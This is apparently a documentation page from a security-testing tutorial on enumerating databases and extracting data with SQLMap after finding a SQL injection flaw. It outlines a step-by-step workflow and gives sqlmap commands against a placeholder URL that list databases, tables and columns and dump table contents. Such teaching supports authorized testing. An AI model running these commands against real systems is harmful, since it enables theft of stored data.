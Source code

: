 ```yaml
---
title: Database Enumeration
description: Learn how to enumerate database structure and extract data using SQLMap
---
```


# Database Enumeration and Data Extraction

<Note title="Information Gathering" type="info">
Database enumeration is a critical phase in security assessments, allowing you to understand the structure and content of vulnerable databases. Always ensure you have proper authorization before performing these actions.
</Note>

<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="workflow">Workflow</TabsTrigger>
    <TabsTrigger value="commands">Key Commands</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    SQLMap provides comprehensive capabilities for enumerating database structures and extracting valuable information once a SQL injection vulnerability has been identified. These techniques allow for systematic exploration of the database environment while maintaining control over the scope and impact of your security assessment.
  </TabsContent>
  <TabsContent value="workflow">
    A typical database enumeration workflow follows these steps:
    
    1. **Identify SQL injection vulnerability**
    2. **Determine database type and version**
    3. **List available databases**
    4. **Enumerate tables in target databases**
    5. **List columns in sensitive tables**
    6. **Extract valuable data**
    7. **Access file system (if needed and authorized)**
    
    This methodical approach ensures thorough exploration while minimizing unnecessary actions.
  </TabsContent>
  <TabsContent value="commands">
    Essential SQLMap enumeration commands:
    
    ```bash
    # Get current database name
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    
    # List all databases
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    
    # List tables in a database
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname --tables
    
    # List columns in a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --columns
    
    # Dump data from a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --dump
    ```
  </TabsContent>
</Tabs>

## Exploration Techniques

<Stepper>
  <StepperItem title="Database Structure Analysis">
    Learn how to enumerate databases, tables, and columns to map out the complete database structure.
    
    [Explore Database Structure →](/docs/sqlmap/database-enumeration/database-structure)
  </StepperItem>
  <StepperItem title="Data Extraction Methods">
    Discover techniques for extracting data from databases, including filtering, optimizing, and handling large datasets.
    
    [Explore Data Extraction →](/docs/sqlmap/database-enumeration/data-extraction)
  </StepperItem>
  <StepperItem title="File System Access">
    Learn how to access the file system through SQL injection vulnerabilities when database privileges permit.
    
    [Explore File System Access →](/docs/sqlmap/database-enumeration/file-system-access)
  </StepperItem>
</Stepper>
